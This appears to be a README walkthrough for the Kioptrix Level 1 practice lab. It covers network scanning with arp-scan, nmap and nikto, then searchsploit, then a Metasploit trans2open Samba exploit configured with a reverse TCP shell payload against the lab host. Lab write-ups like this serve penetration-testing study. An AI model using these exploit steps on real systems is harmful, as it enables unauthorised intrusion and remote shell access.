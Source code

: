 # Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.

```bash
search samba version command to search exploit
```
Use ```bash 
exploit/linux/samba/trans2open
```

```bash
Options
```   We can use options command to see the options.

Use:-
msf exploit(linux/samba/trans2open) >
 ```bash
set RHOST <target Ip(10.0.2.5)>
```
msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```






